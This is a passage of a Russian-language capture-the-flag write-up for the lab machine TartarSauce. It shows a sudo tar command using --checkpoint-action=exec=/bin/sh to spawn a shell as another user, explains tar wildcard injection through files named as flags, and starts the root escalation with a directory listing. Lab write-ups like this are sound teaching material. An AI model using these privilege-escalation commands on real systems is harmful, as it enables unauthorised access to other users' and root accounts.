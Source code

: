 ## tar --checkpoint-action
Флаг `--checkpoint=NUM` позволяет выполнять действие после каждых обработанных `NUM` байт. Действие по умолчанию — вывод сообщения о прогрессе, **но** действие можно изменять опцией `--checkpoint-action` :smiling_imp:

Дальше все очевидно: попросим tar отдать нам шелл после процессинга 1-го байта *пустоты ~~и безысходности~~*:
```text
www-data@TartarSauce:/var/www$ sudo -u onuma /bin/tar -Pcf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```

Интересный хак: если бы мы не могли самостоятельно сконструировать команду для tar (в случае, если бы он запускался по cron-задаче, например) **и** пользователь имел неосторожность поставить asterisks (\*) в целевой директории для архивирования (к примеру, так: `tar -zcf /var/backups/home.tgz /home/*`), то мы все равно могли бы провести эксплуатацию, создав файлы с названиями, идентичными названию нужных флагов и их значений. Такие файлы были бы обработаны tar'ом как аргументы командной строки. Подробнее об этом можно почитать [здесь](https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744 "Attack and Defend: Linux Privilege Escalation Techniques of 2016 - attack-defend-linux-privilege-escalation-techniques-2016-152744") (*начало на стр. 8, Figure 4 – Example Cron Job*).

# PrivEsc: onuma → root
Выберем один из способов выше для PWN'а пользователя *onuma*, заспауним красивый шелл от его имени и пойдем дальше.

В домашней директории ничего привлекательного:
```text
onuma@TartarSauce:~$ ls -la
total 40
drwxrw---- 5 onuma onuma 4096 Feb 21  2018 .
drwxr-xr-x 3 root  root  4096 Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3871 Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4096 Feb  9  2018 .cache
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4096 Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4096 Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt
```
